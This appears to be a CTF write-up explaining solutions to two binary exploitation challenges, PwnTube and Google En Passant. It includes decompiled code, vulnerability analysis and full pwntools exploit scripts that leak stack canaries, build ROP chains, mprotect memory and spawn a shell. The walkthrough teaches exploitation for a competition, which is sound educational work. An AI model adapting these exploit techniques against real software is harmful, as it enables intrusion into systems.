


Solutions to some of the pwn challenges in the event.
<!--more-->

## Overview

In this CTF, I have played with my team `thehackerscrew`, and we've finished 4th place.


## PwnTube

Pwntube was an easy pwn challenge with 23 solves. 
It consisted of a simple menu:

`1. Play/Stop	2. Skip ad	3. Show comments     4. Add comment	5. Buy Premium	 0. Quit`

Right away I have started with static analysis using IDA, and I was searching for vulns.
Firstly, I noticed that the `skipAd` function:
```c
unsigned __int64 __fastcall skipAd(int a1, int a2)
{
  char command[15]; // [rsp+19h] [rbp-17h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  clearScreen();
  strcpy(command, "cat ./flag.txt");
  if ( a1 == 0xDEADBEEF && a2 == 0xFEEDFACE )
  {
    puts("\nYou did not give me up :)\nYou earned this:\n");
    system(command);
  }
  else
  {
    system("cat ./flag");
  }
  return v4 - __readfsqword(0x28u);
}
```

This function will cat the flag if the correct parameters are given to it.
After searching for `x-refs`, I saw that the `Buy Premium` functionallity calls it, if the user has more than 19 money:

```c
unsigned __int64 buy_premium()
{
  int v1; // [rsp+8h] [rbp-228h] BYREF
  float money; // [rsp+Ch] [rbp-224h]
  char v3[32]; // [rsp+10h] [rbp-220h] BYREF
  char v4[504]; // [rsp+30h] [rbp-200h] BYREF
  unsigned __int64 v5; // [rsp+228h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  money = 0.0;
  clearScreen();
  puts(
    "Enjoy watching PwnTube uninterrupted by ads.\n"
    "Get as many flags as you want, on your mobile device, desktop, or smart TV.\n"
    "\tAll of this, just for €19.99/month");
  printf("\nCurrent balance: €%.2f.\n", 0.0);
  puts("1. Buy Premium now\t2. Add funds\t3. Go back");
  __isoc99_scanf(byte_35EC, &v1);
  cleanBuffer();
  if ( v1 == 3 )
  {
    printVideo();
  }
  else if ( v1 <= 3 )
  {
    if ( v1 == 1 )
    {
      if ( money < 19.0 )
        puts("You don't have enough money");
      else
        skipAd(0xDEADBEEF, 0xFEEDFACE);
    }
    else if ( v1 == 2 )
    {
      puts("Insert your name:");
      __isoc99_scanf("%s", v4);
      cleanBuffer();
      puts("Insert your card number:");
      __isoc99_scanf("%16s", v3);
      cleanBuffer();
      puts("Processing payment...");
      sleep(5u);
      puts("Payment failed, you're broke");
    }
  }
  return v5 - __readfsqword(0x28u);
}
```

The `money` variable will never change, so we will need to search for a vulnerabillity which will allow us to corrupt and control the execution of the program.

Firstly, we can notice that the binary is compiled with a stack canary, which is a random value placed at the end of the stack to prevent stack overflows.

We can also notice a stackoverflow vuln in the `buy_premium` function, in the `add_funds` option.

The `name` variable is written using the `scanf("%s", name)` call, which doesn't limit the amount of characters written, while the name variable is of a fixed size, 504.

Since there is a stack canary, we'll need to leak it first, and then use the stackoverflow to jump to any location we want.

There is another vuln in this program. In the `showComments` function, each comment is printed directly with the `printf` function, as the format string. this is a format string vulnarabillity.

We can see that when adding comments, a check will be made:

```c
if ( strstr((const char *)(30LL * *a2 + a1), "%p") || strstr((const char *)(30LL * *a2 + a1), "%x") )
  {
    puts("Plz don't hack me :(");
    strcpy((char *)(30LL * *a2 + a1), "never gonna hack me");
  }
```

But it doesn't really matter beacause we wil be using `%{n}$p` and not `%p` directly.

Now, lets chain these 2 vulnerabillites together, to read the flag. our plan will be to first leak the canary, and the binary base (since PIE is enabled), and then use the stack overflow to populate the `RDI&RSI`` registers with `0xDEADBEEF&0xFEEDFACE`` and call `skipAd`.

I noticed that the stack canary is located 71 quadwords after `rsp` when printf is called, and there is a binary leak after 11 quadwords.

So here is how I leaked them:

```py
add_comment(f"%71$p")
add_comment(f"%11$p")
canary, binary_leak = [int(i, 16) for i in show_comments().split(b"\n")] 
elf.address = binary_leak - 0x1abd

print("canary", hex(canary))
print("bin", hex(elf.address))
```

Now, by using the `ropper` tool I searched for rop gadget to populate `rdi` and `rsi`.

I found this single gadget which does exactly what we need:



And lastly, I have added the correct values to the stack and called `skipAd`, and got the flag.

Here is the final script:

```py
from pwn import *

p = remote("pwntube.challs.srdnlen.it" , 1661)
elf = ELF("./PwnTube")
def add_comment(cmt):
	p.sendline("4")
	p.recvuntil("here:")
	p.sendline(cmt)

def show_comments():
	p.sendline("3")
	p.recvuntil(":D\n")
	return p.recvuntil("1.").replace(b"\n\n 1.", b'')


def premium_addfunds(payload):
	p.sendline("777")
	p.sendline('5')
	p.recvuntil("back\n")
	p.sendline("2")
	p.recvuntil("name:")
	p.sendline(payload)
	p.recvuntil("card number:")
	p.sendline("aaa")
	time.sleep(5)
def main():


	p.recv()

	add_comment(f"%71$p")
	add_comment(f"%11$p")
	canary, binary_leak = [int(i, 16) for i in show_comments().split(b"\n")] 
	elf.address = binary_leak - 0x1abd

	print("canary", hex(canary))
	print("bin", hex(elf.address))

	POPS = 0x00000000000015a9 + elf.address # pop rsi; pop rdi; ret; 

	premium_addfunds(b"a" * 504 + p64(canary) + b"B" * 8 + p64(POPS) + p64(0xfeedface) + p64(0xdeadbeef) + p64(elf.sym.skipAd))


	p.interactive()

main()

```

## Google En Passant

`Google En Passant` was the second pwn challenge I solved. It had only 4 solves.
It was a pretty big staticlly compiled binary, which was is used to parse a FEN position in chess.



Here is the main function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rdx
  int v5; // ecx
  int v6; // er8
  int v7; // er9
  unsigned int choice; // [rsp+Ch] [rbp-E4h] BYREF
  board v10; // [rsp+10h] [rbp-E0h] BYREF
  char pieces[16]; // [rsp+70h] [rbp-80h] BYREF
  _BYTE fen_pos[104]; // [rsp+80h] [rbp-70h] BYREF
  unsigned __int64 v13; // [rsp+E8h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  setbuf(stdout, 0LL, envp);
  setbuf(stdin, 0LL, v3);
  createDefaultPieces((board *)pieces);
  createEmptyBoard(&v10);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1) Visualize FEN position \n2) Customize your chess set \n3) Quit.\n\n");
        _isoc99_scanf((unsigned int)"%d", (unsigned int)&choice);
        getchar();
        if ( choice != 1 )
          break;
        createEmptyBoard(&v10);
        printf((unsigned int)"Give me your position in FEN format (no brackets): ", (unsigned int)&choice);
        fgets(fen_pos, 99LL, stdin);
        fen_pos[j_strcspn_ifunc(fen_pos, "\r\n")] = 0;
        readFEN((__int64)fen_pos, (__int64)pieces, &v10);
        printBoard(&v10, (__int64)pieces);
      }
      if ( choice != 2 )
        break;
      createDefaultPieces(pieces);
      customizeChessSet(pieces);
    }
    if ( choice == 3 )
      break;
    puts("Sorry, try again.");
  }
  return 0;
}

```

We can parse the fen position and visualize it, or customize our chess set. Lets start with the second option:
```c
unsigned __int64 __fastcall customizeChessSet(char *set)
{
  char v2; // [rsp+1Bh] [rbp-75h]
  int i; // [rsp+1Ch] [rbp-74h]
  board board; // [rsp+20h] [rbp-70h] BYREF
  unsigned __int64 v5; // [rsp+88h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  createEmptyBoard(&board);
  puts("Send me 15 characters and I'll set them up.");
  for ( i = 0; i <= 14; ++i )
  {
    v2 = getchar();
    set[i] = v2;
    if ( !v2 || v2 == '\n' )
      break;
  }
  puts("Your custom chess set looks like this:");
  readFEN((__int64)starting_pos, (__int64)set, &board);
  printBoard(&board, (__int64)set);
  return v5 - __readfsqword(0x28u);
}
```

It will take the `pieces` string, and let the user choose 16 different pieces.

Now lets at the second option, the `readFEN` function which is responible for parsing the position and creating the `board` object.

The `readFEN` function is actualyl really big, but in reality most of it is just code that doesn't really matter.

Here is the begininng of the code, which actually parses the position:

```c

__int64 __fastcall readFEN(char *pos, char *pieces, board *board)
{
  int idx; // eax
  __int64 result; // rax
  int v5; // eax
  int v6; // eax
  int v7; // eax
  int v8; // eax
  int v9; // eax
  char curr; // [rsp+2Fh] [rbp-21h]
  char v12; // [rsp+2Fh] [rbp-21h]
  char v13; // [rsp+2Fh] [rbp-21h]
  char v14; // [rsp+2Fh] [rbp-21h]
  char v15; // [rsp+2Fh] [rbp-21h]
  signed int i; // [rsp+30h] [rbp-20h]
  int column; // [rsp+34h] [rbp-1Ch]
  int row; // [rsp+38h] [rbp-18h]
  int v19; // [rsp+3Ch] [rbp-14h]
  int pos_len; // [rsp+40h] [rbp-10h]

  i = 0;
  pos_len = j_strlen_ifunc(pos);
  column = 0;
  row = 0;
  printf((unsigned int)"Reading position [%s] ... \n", (_DWORD)pos);
  while ( i < pos_len )
  {
    if ( column > 7 )
      break;
    idx = i++;
    curr = pos[idx];
    if ( curr == ' ' )
      break;
    if ( curr <= '0' || curr > '8' ) // if not a number
    {
      if ( curr == '/' )
      {
        ++column;
        row = 0;
      }
      else
      {
        if ( !j_strchr_ifunc("KQRBNP kqrbnp *", (unsigned int)curr) )
        {
          printf((unsigned int)"Unrecognized character in FEN string (position): %c\n Exiting...", curr);
          exit(1LL);
        }
        board->chess_board[8 * column + row++] = pieces[(int)(j_strchr_ifunc("KQRBNP kqrbnp *", (unsigned int)curr)
                                                            - (unsigned int)"KQRBNP kqrbnp *")];
      }
    }
    else // if a number
    {
      row += curr - '0';
    }
  }

```

Now, we can learn a few things from the implemantion.

Firstly, we can enter either numbers, slash, or the characters `KQRBNPkqrbnp*`. (we will avoid writing spaces since they make the function exit)

If we entered a number, the `row` variable will be increased with this number.

If we enter `/`, the column variable will be increased, and the row variable will be zerod.

If the character is one of `KQRBNPkqrbnp*`, the corrosponding letter in the `pieces` array will be written into `chess_board[8 * column + row]`

Now, there is a vulnarabillity here. 

The code does check if column > 7, but there is no check if row > 7. This gives us an OOB write primitive in the stack, which is really strong.

The binary is comppiled without PIE, and its staticlly linked. this means that no leak is required and we can straight away write into the return pointer and profit.

After debugging a bit, I noticed that when writing `///////8888888888888888888888`, we make `column*8 + row` point at the return pointer, and we can write our rop chain.

Now, we need to carefully choose our gadgets, Since we can only write `strlen(pieces) = 16` different characters (after changing pieces).

I figured out that 16 bytes isn't enough with a 1stage attack, since there is not a wrapper for `system` or something like that.

In my first stage of rop chain, I tried to call read on the stack, so that I can freely have another ropchain which is isn't limited to 16 characters.

To call `read` on the stack, we  need to setup a few things:

    1. set eax=0 (READ SYSCALL NUMBER) - this shoudln't be a problem , because on main's ret the program does `xor eax, eax` instruction.
    
    2. set RSI to be right before `RSP` - To create another ropchain we need to overwrite the address at `RSP`. unfortunately, there is no `mov rsi, rsp` gadget or something similar. To achieve what I want I used an `mov rsi, rdi` instruction, because I noticed that on `ret`, `RSP = RDI + 0x638` which is amazing for what we want. the gadget's address is `0x4b2ac8`. this will be 4 bytes (nullbyte aswell)
    
    3. set RDI=0 (stdin fd) - for that, I needed a `pop rdi; ret` gadget (there isn't `xor rdi, rdi`). found it at 0x0000000000402acf. this will add 2 more bytes, `0xcf` and `0x40` (null byte and `0x2a` have already been used).
    
    4. set RDX>0x648 - since `RSP = RDI + 0x638`, we need RDX to be at least 0x648 to reach the saved return pointer. the bigger the better. I used a `por rdx; pop rcx; ret(0x04a458b)` instruction to achieve that, setting `rdx` to whatever I want. this will add 3 more bytes.
    
    5. we need a `syscall ; ret` instruction , to call read, and to jump to the new overwritten return pointer. I've found one in `0x458939`. this will add us 2 more bytes.

In total, to call `read` we will need a total of 11 bytes.

Also notice that we can't write spaces, so when replacing the pieces we need to make sure that none of our desired space is at position 6 or 12(`KQRBNP kqrbnp *`).

Here is the new pieces that's gonna be sent to the server `new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'`. There are X's on a space or on an unused position.

Now, we will make our first ropchain. I have created this function which is gonna convert our ropchain to the basic pieces that the program is taking as input:

```py
default_pieces = 'KQRBNP kqrbnp *'
new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'

def convert_chain(chain):
    fixed = ''
    for i in chain:
        idx = new.index(chr(i))
        fixed += default_pieces[idx]

    return fixed
```

It will take each character in our payload, and convert it to the corrosponding character in `default_pieces`

Here is the full code of this part:

```py
def visualize(pos):
    p.recvuntil("Quit.")
    p.sendline('1')
    p.recvuntil(": ")
    p.sendline(pos)

def customize(new_set):
    p.recvuntil("Quit.")
    p.sendline('2')
    p.recvuntil(".")
    p.send(new_set)

MOV_RSI_RDI = 0x00000000004b2ac8# mov rsi, rdi; do-stuff; ret
POP_RDI = 0x0000000000402acf # pop rdi
POP_RDX_RCX = 0x00000000004a458b # pop rdx; pop rcx; ret
SYSCALL = 0x0000000000458939 # syscall; ret

default_pieces = 'KQRBNP kqrbnp *'
new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'

def convert_chain(chain):
    fixed = ''
    for i in chain:
        idx = new.index(chr(i))
        fixed += default_pieces[idx]

    return fixed

payload = p64(MOV_RSI_RDI) + p64(POP_RDI) + p64(0) + p64(POP_RDX_RCX) + p64(0xcfcfcfcf) + p64(0xcfcfcfcf) + p64(SYSCALL)

payload = convert_chain(payload)

customize(new)


reachRIP = '///////8888888888888888888888'

payload = reachRIP + payload

visualize(payload)
```

Now, the program will wait for our input, and will write it in the stack, before RSP.

At this point, we can freely write whatever we want and we are not limited at all.

I chose to call `mprotect` on the bss, and then write shellcode there and jump to there.

Firstly, we need to calculate the amount of padding needed to reach the return pointer. I played with gdb and noticed that we need to write `0x670` bytes to reach it.

Then, we need to set `RDI` to point at the bss, `RSI` to be `page_size=0x1000`, and `RDX` to be `PROT_EXEC|PROT_WRITE|PROT_READ=0x7`.

```py
payload = b"A" * (0x670)
payload += p64(POP_RDI) + p64(0x4e6000) + p64(POP_RSI) + p64(0x1000) + p64(POP_RDX_RCX) + p64(0x7) + p64(0) + p64(elf.sym.mprotect) #mprotect bss
```

Then , we need to write our shellcode into it. I called the `read` syscall, with `RDI=0=stdin`, `RSI=bss`, and `RDX>len(shellcode)`.

```py
payload += p64(POP_RDI) + p64(0) + p64(POP_RSI) + p64(0x4e6000) + p64(POP_RDX_RCX) + p64(0x100) + p64(0) + p64(SYSCALL) #call read on bss
```

And lastly, we just need to add the address of the bss, so that it will jump there after the `read`.

Final script:

```py
from pwn import *
context.arch = 'amd64'
p = process("./gep")
elf = ELF("./gep")
def visualize(pos):
    p.recvuntil("Quit.")
    p.sendline('1')
    p.recvuntil(": ")
    p.sendline(pos)

def customize(new_set):
    p.recvuntil("Quit.")
    p.sendline('2')
    p.recvuntil(".")
    p.send(new_set)


MOV_RSI_RDI = 0x00000000004b2ac8# mov rsi, rdi; do-stuff; ret
POP_RDI = 0x0000000000402acf # pop rdi
POP_RDX_RCX = 0x00000000004a458b # pop rdx; pop rcx; ret
SYSCALL = 0x0000000000458939 # syscall; ret

default_pieces = 'KQRBNP kqrbnp *'
new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'

def convert_chain(chain):
    fixed = ''
    for i in chain:
        idx = new.index(chr(i))
        fixed += default_pieces[idx]

    return fixed

payload = p64(MOV_RSI_RDI) + p64(POP_RDI) + p64(0) + p64(POP_RDX_RCX) + p64(0xcfcfcfcf) + p64(0xcfcfcfcf) + p64(SYSCALL)

payload = convert_chain(payload)

customize(new)


reachRIP = '///////8888888888888888888888'

payload = reachRIP + payload

visualize(payload)


p.sendline("3") #trigger ret

#raw rop chain

POP_RBX = 0x0000000000402500
POP_RAX = 0x0000000000459d27
stack_port = 0x4e5eb0
POP_RSI = 0x000000000040aafe
SYSCALL 
payload = b"A" * (0x670)

payload += p64(POP_RDI) + p64(0x4e6000) + p64(POP_RSI) + p64(0x1000) + p64(POP_RDX_RCX) + p64(0x7) + p64(0) + p64(elf.sym.mprotect) #mprotect bss
payload += p64(POP_RDI) + p64(0) + p64(POP_RSI) + p64(0x4e6000) + p64(POP_RDX_RCX) + p64(0x100) + p64(0) + p64(SYSCALL) #call read on bss
payload += p64(0x4e6000) #jmp to bss

p.sendline(payload)

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## Appendix

The event was overall good. I liked `gep` a lot,  but I just wished there more "normal" pwn, since there was some apk stuff and another blind 16bit assembly challenge.

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
